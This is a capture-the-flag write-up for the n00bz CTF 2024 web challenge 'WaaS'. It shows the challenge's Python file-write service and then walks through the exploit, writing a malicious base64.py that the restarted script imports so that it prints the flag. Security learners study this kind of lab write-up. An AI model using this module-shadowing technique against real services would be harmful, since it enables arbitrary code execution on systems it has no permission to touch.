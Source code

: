 ```yaml
---
title: WaaS
category: n00bz-CTF-2024
chall_description: 
points: 491
solves: 78
tags: web
date: 2024-08-04
comments: false
---
```

Writing as a Service! Author: NoobMaster + NoobHacker
---
# Code Analysis
```py
import subprocess
from base64 import b64decode as d
while True:
	print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
	try:
		inp = int(input("Choice: ").strip())
	except:
		print("Invalid input!")
		exit(0)
	if inp == 1:
		file = input("Enter file name: ").strip()
		assert file.count('.') <= 2 # Why do you need more?
		assert "/proc" not in file # Why do you need to write there?
		assert "/bin" not in file # Why do you need to write there? 
		assert "\n" not in file # Why do you need these?
		assert "chall" not in file # Don't be overwriting my files!
		try: 
			f = open(file,'w')
		except:
			print("Error! Maybe the file does not exist?")

		f.write(input("Data: ").strip())
		f.close()
		print("Data written sucessfully!")
		
	if inp == 2:
		flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
		print(flag.stdout.strip())
```
This python code allows you to write to a file, it seems that it can be in the current directory or a directory specified by the user. We can't write to the challenge file, but we can write to a file that will be imported by the challenge script.
# The Exploit
First, we specify base64.py as the file to write to, because when we relaunch the script base64.py will be imported at executed.
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: base64.py
```
Next, we'll write "print(open('flag.txt').read())" to the file. Since the code doesn't except newlines, this will have to do.
```
Data: print(open('flag.txt').read())
Data written sucessfully!
```
Afterwards, we exit:
```
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: ^C⏎
```
Then we will reconnect (which leads to the script being relaunched):
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_168720a41375}
```
Wow! That's a flag!⏎                                                                                               
